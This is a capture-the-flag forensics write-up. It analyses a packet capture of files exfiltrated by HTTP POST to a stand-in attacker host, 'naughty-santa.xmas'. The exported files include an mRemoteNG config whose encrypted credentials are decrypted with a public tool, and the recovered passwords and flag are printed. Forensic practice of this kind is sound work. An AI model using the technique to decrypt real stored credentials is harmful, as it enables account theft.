


# Day 09 - The Christmas Thief

## Challenge
A colleague of yours forgot to lock his workstation during his coffee break, and when he returns he discovers that some of his files have been looked at, and maybe even stolen! He's really sad, because he had prepared some superb memes for Christmas, but more importantly, he also had sensitive information about the Root-Me infrastructure... Luckily for you, the network survey has captured what happened, so it's now your turn to find out what was stolen!

>    Author : Nishacid

## Input
- PCAP file: [the_christmas_thief.pcapng](./the_christmas_thief.pcapng)

## Analysis
We spot some `http` traffic in that `PCAP` file, especially some file exfiltration to the domain `http://naughty-santa.xmas:8080`:



```
    POST /upload HTTP/1.1\r\n
    Host: naughty-santa.xmas:8080\r\n
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0\r\n
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
    Accept-Language: en-US,en;q=0.5\r\n
    Accept-Encoding: gzip, deflate\r\n
    Content-Type: multipart/form-data;
```

We export every file using `Wireshark` export feature and get a collection of files:



Among others, we spot some exfiltrated memes:


In addition, we find an xml config file [confCons.xml](./confCons.xml). Here's the beginning:

```xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="KuJgm3Hy4FXbM4GVwaJN6KiSq6sLNYN+tdrjVhQRPvXgkMuvSJLp9Au/g66czFaoLErkFWDGGCLIYwo8ReQDI5J5" ConfVersion="2.6">
(...)
```

We have credentials in that file, but they are encrypted:

```
root:XD6l5yfXJt4qrt68m2rODBDjmKoEYzxbA1k0IToc0TbqRmIvY2n0NVa98+Fe5zOEamig7UNUb3R2rQ==
challenges:OqJIc9IEBD8Q2pGWmrt/z2o+AeupVnesPQk3Mj1BANhzdP4o8jc3WV2QulpGc95WdBw+BlS72kTDrndkzQ==
nishacid:TWK/BPwZG5rXMQv0LH8mALWbdDguNCOi5UHE6oc108iLT+1V63HR/jqhq76QAkPNCm54CrLjSJPKwV4Nv+0dFKNGZeI3KO8s/oinc+wtZ7SwcqA=
```

## Solution
I use that tool at https://github.com/gquere/mRemoteNG_password_decrypt.git to decrypt them:

```console
$ python3 mremoteng_decrypt.py confCons.xml
Name: root-me prod
Hostname: 10.0.16.100
Username: root
Password: grosbisous

Name: root-me challenges
Hostname: 10.0.12.98
Username: challenges
Password: letsgrabflags

Name: root-me v2
Hostname: 10.1.13.37
Username: nishacid
Password: RM{R3m0t3_cLi3Nt_4r3_n0t_S0_s3cur3}

```

## Flag
> RM{R3m0t3_cLi3Nt_4r3_n0t_S0_s3cur3}
